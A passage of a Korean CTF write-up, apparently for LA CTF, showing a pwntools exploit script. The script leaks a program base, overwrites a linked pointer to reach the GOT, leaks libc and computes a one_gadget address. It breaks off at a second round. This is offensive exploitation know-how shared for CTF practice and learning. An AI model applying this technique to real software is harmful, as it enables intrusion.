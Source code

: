 ### exploit.py

- 위 내용을 전부 종합한 `exploit.py` 는 아래와 같다.

```python
from pwn import *

context.log_level = 'debug'

p = remote('chall.lac.tf', 31338)
e = ELF('./chall')
# p = e.process()

def create_level(index):
    p.sendlineafter(b'Choice: ', str(1))
    p.sendlineafter(b'index: ', str(index))
    
def edit_level(data):
    p.sendlineafter(b'Choice: ', str(2))
    p.sendlineafter(b'data: ', data)
    
def test_level():
    p.sendlineafter(b'Choice: ', str(3))

def explore(index):
    p.sendlineafter(b'Choice: ', str(4))
    p.sendlineafter(b'index: ', str(index))

def reset():
    p.sendlineafter(b'Choice: ', str(5))

p.recvuntil(b': ')
main_address = int(p.recvline()[:-1], 16)
code_base = main_address - 0x1662
puts_got = code_base + 0x4008

print(hex(code_base))
print(hex(puts_got))
print(hex(code_base + e.got['puts']))

# Round 1
# Set Level to Overwrite next index
create_level(1) # start: 1
create_level(2) # start: 1 2
create_level(3) # start: 1 2 3
explore(1) # start-1

# Overwrite start-2's next[0]
payload = b'A' * 0x30 + p64(puts_got-0x40)
edit_level(payload)

# Leak libc base
reset()
explore(2) # start-2
explore(0) # start-2-0
test_level() # leak puts_got ?
p.recvuntil(b'data: ')
libc_puts = p.recvn(8)
libc_base = u64(libc_puts) - 0x77980

# 0x4c139 0x4c140 0xd511f
one_gadget = libc_base + 0xd511f

# Round 2
```